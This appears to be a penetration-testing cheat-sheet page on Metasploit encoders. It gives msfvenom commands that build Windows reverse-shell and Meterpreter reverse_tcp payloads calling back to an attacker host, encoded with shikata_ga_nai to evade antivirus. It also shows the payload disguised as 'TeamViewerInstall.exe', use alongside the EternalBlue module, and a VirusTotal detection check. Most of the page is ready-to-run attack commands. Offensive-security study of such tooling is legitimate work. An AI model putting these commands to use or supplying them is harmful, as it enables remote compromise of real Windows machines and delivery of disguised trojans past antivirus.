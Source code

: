 # Encoders

## About

Encoders help us with AV evasion and with keeping the payloads we use compatible with the target CPU. This involves removing Hexadecimal Opcodes also called "Bad Characters" and other stuff in order to keep payloads "hidden" and functional.

One of the most used encoding schemes now is Shikata Ga Nai (SGN) which translates to "Nothing can be done about it". Although not really the best anymore but here's a [blog ](https://cloud.google.com/blog/topics/threat-intelligence/shikata-ga-nai-encoder-still-going-strong/)about it.

## Using Encoders

### Non-Encoded Payload

```bash
[!bash!]$ msfvenom -a x86 --platform windows -p windows/shell/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -b "\xBadChars" -f perl
```

### Encoded Payload

```bash
[!bash!]$ msfvenom -a x86 --platform windows -p windows/shell/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -b "\xBadChars" -f perl -e x86/shikata_ga_nai
```

### Encoding a selected payload

```bash
msf6 exploit(windows/smb/ms17_010_eternalblue) > set payload 15
msf6 exploit(windows/smb/ms17_010_eternalblue) > show encoders
# One single iteration
[!bash!]$ msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=<attacking-ip> LPORT=8080 -e <the-path-from-prev-command> -f exe -o ./TeamViewerInstall.exe
# Multiple encoding iterations
[!bash!]$ msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=<attacking-ip>> LPORT=8080 -e x86/shikata_ga_nai -f exe -i 10 -o /root/Desktop/TeamViewerInstall.exe
```

## MSF - VirusTotal

{% hint style="danger" %}
Keep in mind that although we used encodings and iterations blablabla our payload is still pretty detectable by most of the AV solutions.&#x20;
{% endhint %}

```bash
$ msf-virustotal -k <API key> -f TeamViewerInstall.exe
```
